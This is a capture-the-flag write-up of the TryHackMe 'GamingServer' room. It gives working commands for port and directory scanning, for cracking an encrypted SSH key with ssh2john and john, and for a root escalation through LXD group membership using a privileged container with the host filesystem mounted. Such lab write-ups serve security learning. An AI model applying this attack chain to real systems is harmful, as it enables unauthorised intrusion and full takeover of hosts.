 # GamingServerWriteup

Try Hack Me Writeup — GamingServer

Hello Guys , I am Vishal Kumar. My username on THM is “vishack56”.

## STEP 1:

Port Scan: Running NMAP full port scan on it , we get

~~~bash
root@vish:~/TryHackMe# nmap -sC -sV -p- -T4 10.10.246.20
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 16:33 IST
Nmap scan report for 10.10.246.20
Host is up (0.20s latency).
Not shown: 65531 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
29926/tcp filtered unknown
50976/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1044.51 seconds
~~~ 


Visiting the 80 port on browser we see a "House of Danak" page. There is something interesting in its source code which is :
"john, please add some actual content to the site! lorem ipsum is horrible to look at."

### john must be the username.


## STEP 2:

Running gobuster:
~~~ 
gobuster dir -u http://10.10.246.20/ --wordlist /home/security/SecLists/Discovery/Web-Content/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/[[hidden-text]] (Status: 200)
/[[hidden-text]] (Status: 301)
/[[hidden-text]] (Status: 403)
/[[hidden-text]] (Status: 301)

~~~ 
 
![screenshot](images/Screenshot1.png) 
 
## STEP 3:
 
 Visiting the hidden directoory, we get dict.lst file which I assume is some sort of wordlist.
 
![screenshot](images/Screenshot2.png) 
 
 and another hidden directory contains encrypted SSH key:
 
![screenshot](images/Screenshot3.png) 


## STEP 4:
 
 Since the RSA key is encrypted we’ll use ssh2john and john to crack the hash. I saved the hash as id_rsa.

~~~bash 
root@vish:~/TryHackMe/GamingServer# nano id_rsa
root@vish:~/TryHackMe/GamingServer# /usr/share/john/ssh2john.py id_rsa > id_rsa_hash
root@vish:~/TryHackMe/GamingServer# john --wordlist=dict.lst id_rsa_hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
[[hidden-password]]          (id_rsa)
1g 0:00:00:00 DONE (2020-08-31 17:04) 4.000g/s 888.0p/s 888.0c/s 888.0C/s 2003..starwars
Session completed

~~~ 

![screenshot](images/Screenshot4.png) 

## STEP 5:

SSH Login :

~~~bash

root@vish:~/TryHackMe/GamingServer# chmod 600 id_rsa
root@vish:~/TryHackMe/GamingServer# ssh -i id_rsa john@10.10.246.20
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.246.20 (10.10.246.20)' can't be established.
ECDSA key fingerprint is SHA256:LO5bYqjXqLnB39jxUzFMiOaZ1YnyFGGXUmf1edL6R9o.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.246.20' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 31 11:49:55 UTC 2020

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.246.20
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10

john@exploitable:~$ cat user.txt
[[hidden-user-flag]]
~~~ 

  
![screenshot](images/Screenshot5.png)


## STEP 6:

Privilege Escalation

~~~bash
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
~~~ 

![screenshot](images/Screenshot6.png)

LXD seems interesting, after enumerating this I got a technique to escalate provilege from https://www.hackingarticles.in/lxd-privilege-escalation/

Following the steps of this article and the machine is rooted.

In Local machine:
First Download the "build alpine" from : https://github.com/saghul/lxd-alpine-builder.git
Go to the lxd-alpine-builder directory and run "build-alpine" by ./build-alpine
On running the above command, a tar.gz file is created.
Transfer that file in the host machine into /tmp

and run the following commands one by one:

- lxc image import ./alpine-v3.12-x86_64-20200831_1326.tar.gz --alias myimage
- lxc image list
- lxc init myimage ignite -c security.privileged=true
- lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
- lxc start ignite
- lxc exec ignite /bin/sh

john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)

![screenshot](images/Screenshot7.png)

~~~bash
/mnt/root/root # cat root.txt
[[hidden-root-flag]]
/mnt/root/root #
~~~ 
  
### Thanks for reading this.